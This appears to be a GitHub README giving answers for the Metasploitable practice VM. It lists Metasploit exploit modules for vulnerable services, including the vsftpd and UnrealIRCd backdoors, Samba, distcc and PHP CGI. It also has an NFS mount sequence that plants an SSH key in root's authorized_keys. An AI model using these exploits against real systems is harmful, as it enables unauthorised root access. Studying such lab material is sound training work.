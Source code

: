 # Metasploitable-Answers
Exploits:

exploit/multi/samba/usermap_script <port:139>

exploit/unix/misc/distcc_exec <port:3632> + exploit/linux/local/udev_netlink (priviledge escalation cve2009-1185 -1 pid of udev pid)

exploit/multi/misc/java_rmi_server <port:1099>

exploit/unix/irc/unreal_ircd_3281_backdoor <port:6667>

exploit/unix/ftp/vsftpd_234_backdoor <port:21>

exploit/multi/http/php_cgi_arg_injection <port:80>

exploit/linux/misc/drb_remote_codeexec set URI druby://<host><port:8787>

NFS Misconfiguration <port:2049>:

rpcinfo -p <host> <this is port 111 rpcbind>

showmount -e <host> or -a

ssh-keygen

mkdir /tmp/test

mount -t nfs <host>:/ /tmp/test -o nolock

cat ~/.ssh/id_rsa.pub >> /tmp/test/root/.ssh/authorized_keys

umount /tmp/test/

ssh root@<host>

amap <ip> <port>
